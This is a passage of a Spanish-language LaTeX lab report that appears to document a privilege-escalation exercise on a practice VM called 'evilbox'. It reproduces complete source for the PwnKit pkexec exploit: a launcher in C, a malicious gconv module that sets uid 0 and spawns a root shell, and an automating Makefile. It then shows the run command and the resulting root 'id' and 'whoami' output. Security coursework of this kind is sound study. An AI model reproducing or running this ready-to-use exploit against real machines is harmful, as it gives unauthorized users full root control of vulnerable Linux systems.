  
\includegraphics[width=0.8\textwidth]{img/image34.png}
  \caption{Copia de archivos de evilbox a webservice.}
\end{figure}

Para poder el contenido de cada archivo se puede ysar el comando cat, esto dando las siguientes salidas:

\begin{lstlisting}[style=consolaSeguridad]
  cat pwnkit.c
  cat conversion-mod.c
  cat Makefile
\end{lstlisting}

\textbf{Codigo de pwnkit.c:}

\begin{lstlisting}[style=cstyle]
#include <unistd.h>

int main() {
    char *argv[] = { NULL };

    char *envp[] = {
        "pwn",
        "TERM=..",
        "PATH=GCONV_PATH=.",
        "CHARSET=BRUH",
        NULL
    };

    execve("/usr/bin/pkexec", argv, envp);
    return 0;
}
  
\end{lstlisting}

\newpage
\textbf{Codigo de conversion-mod.c}

\begin{lstlisting}[style=cstyle]
#define _GNU_SOURCE
#include <unistd.h>
#include <gconv.h>

int gconv_init() {

    setuid(0);
    setgid(0);

    char *args[] = {"sh", NULL};
    char *envp[] = {"PATH=/bin:/usr/bin:/sbin", NULL};

    execvpe("/bin/sh", args, envp);

    return(__GCONV_OK);
}

int  gconv(){ return(__GCONV_OK); }
\end{lstlisting}

La primera regla es \textbf{\texttt{all}}. Donde en este caso, funciona como el punto de entrada
predeterminado cuando se ejecuta el comando \texttt{make} en la consola. Lo que hace es indicarle
al sistema el orden exacto en el que deben ejecutarse las demás tareas: primero limpia cualquier
rastro de ejecuciones anteriores (\texttt{clean}), luego prepara los directorios y archivos trampa
(\texttt{setup}), después compila la biblioteca maliciosa (\texttt{conversion-mod.so}) y finalmente
compila el ejecutable principal del exploit (\texttt{pwnkit}).

La regla \textbf{\texttt{setup}} es la sección más ingeniosa y el núcleo del engaño para explotar
esta vulnerabilidad en específico. Lo que hace primero es crear un directorio con un nombre muy
peculiar: \texttt{GCONV\_PATH=.}. Ademas de que, utilizando los comandos \texttt{touch} y
\texttt{chmod}, crea un archivo vacío llamado \texttt{pwn} dentro de ese directorio extraño y le
otorga permisos de ejecución. Posteriormente, crea una carpeta normal llamada \texttt{pwn} y,
usando el comando \texttt{echo}, escribe dentro de ella un archivo de configuración falso llamado
\texttt{gconv-modules}. Donde en este caso, este archivo de texto es fundamental porque, gracias a
la sintaxis engañosa, le indicará al programa vulnerable (\texttt{pkexec}) que debe cargar nuestro
módulo malicioso (\texttt{conversion-mod}) cuando intente procesar la codificación de caracteres.


\begin{lstlisting}[language=Makefile]
  all: clean setup conversion-mod.so pwnkit

setup:
	mkdir 'GCONV_PATH=.'
	touch GCONV_PATH=.\/pwn
	chmod +x GCONV_PATH=.\/pwn
	mkdir pwn
	echo 'module  UTF-8//    BRUH//    conversion-mod   1' > pwn/gconv-modules

conversion-mod.so:
	gcc -shared -fPIC -o pwn/conversion-mod.so conversion-mod.c

pwnkit:
	gcc -o pwnkit pwnkit.c

clean:
	rm -rf 'GCONV_PATH=.' pwn pwnkit
\end{lstlisting}


Una vez teniendo los archivos en la maquina que vamos atacar, solo es necesario 
correr el archivo Make file, ya que ya esta automatizado, donde el comando es el siguiente:

\begin{lstlisting}[style=consolaSeguridad]
  make all && ./pwnkit && make clean
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{img/image35.png}
  \caption{Ejecucion del comando make.}
\end{figure}

\subsection{Ejecute el comando whoami para demostrar que se logró elevar privilegios en el
equipo vulnerable.}

Para comprobar que se logro hacer la escalacion de privilegios lo primero que vemos es que la consola ya aparece 
con ``\#'', no obstante con el comando id, nos arroja lo siguiente:

\begin{lstlisting}[style=consolaSeguridad]
  id
  uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}

Ademas de esto, cuando se ejecuta el comando whoami, nos arroja lo siguiente: 

\begin{lstlisting}[style=consolaSeguridad]
  whoami
  root
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{img/image36.png}
  \caption{Ejecucion del comando whoami, mostrando que se logro la escalacion de privilegios.}
\end{figure}



\newpage
% Impresión Referencias
\nocite{*}
\printbibliography[heading=bibintoc, title={Referencias}]
\end{document}